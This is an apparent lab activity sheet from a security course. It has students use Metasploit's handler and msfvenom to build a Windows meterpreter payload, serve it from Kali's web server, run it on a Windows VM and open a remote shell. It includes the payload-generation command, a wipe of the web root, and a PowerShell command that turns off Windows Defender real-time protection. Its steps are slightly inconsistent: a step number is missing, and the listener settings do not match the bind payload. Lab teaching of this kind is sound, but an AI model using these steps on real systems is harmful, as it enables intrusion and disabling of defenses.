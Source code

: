 ## Activity File: Metasploit
In this activity, you will use Metasploit and MSFvenom to open a shell on your Windows VM.

### Instructions 

1. Login to the Kali machine with credentials `root/toor`

2. Click on the Metasploit icon on the taskbar

3. Once metasploit is started, use the `exploit/multi/handler` module.

4. Gather your IP address for your Kali host and set your LHOST and LPORT settings.

5. Once LPORT and LHOST is set, start the listener by typing `run -j`.

7. Generate the agent/payload by typing `msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe` 

8. Clear out the /var/www/html/ folder: `rm /var/www/html/*`

9. Move the payload to /var/www/html and start the apache web service

10. Now move from your Kali VM to your Windows VM. Open an web browser and browse to your Kali's IP address. Download the `shell.exe` payload and execute it.

- Note: Windows Defender should be turned off. If not turned off, open PowerShell as administrator and run `Set-MPPreference -DisableRealTimeMonitoring $true` 

11. Back in Kali, you should see a message "Meterpreter Session 1 opened". To interact with this session, type `sessions -i 1`

12. You now have a shell into the Windows machine, with Metasploit operating as the C2 server. Gather the IP address of the Windows host. 